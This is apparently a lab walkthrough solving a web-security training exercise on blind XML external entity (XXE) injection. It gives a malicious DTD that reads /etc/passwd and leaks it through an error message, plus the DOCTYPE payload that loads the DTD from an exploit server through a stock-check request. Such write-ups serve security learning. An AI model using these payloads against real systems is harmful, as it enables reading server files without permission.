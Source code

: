 ![image](https://github.com/udayk01/Web-Security/assets/52235763/518c1161-599c-4b1f-9b05-f5c21d4a7755)

## Solution:

> Click "Go to exploit server" and save the following malicious DTD file on your server:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

![image](https://github.com/udayk01/Web-Security/assets/52235763/11d8fb23-5fbc-487c-9ee9-c704c51b17bc)

>> When imported, this page will read the contents of /etc/passwd into the file entity, and then try to use that entity in a file path.

> Click "View exploit" and take a note of the URL for your malicious DTD.

![image](https://github.com/udayk01/Web-Security/assets/52235763/611a1daf-861b-4e37-a2ba-2281e9f6b0af)

> url: ```https://exploit-0a3900030434bd3883caaf00014f008f.exploit-server.net/exploit```

> You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

![image](https://github.com/udayk01/Web-Security/assets/52235763/a38c826b-a0e9-4844-b5ed-de7ee86dc777)

> Insert the following external entity definition in between the XML declaration and the stockCheck element:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

![image](https://github.com/udayk01/Web-Security/assets/52235763/da0be2cb-1942-4be6-a101-45e2ce00ca98)

>> You should see an error message containing the contents of the /etc/passwd file.

> Lab Solved

![image](https://github.com/udayk01/Web-Security/assets/52235763/141a205e-f50d-42ab-b0ed-266d3d312120)
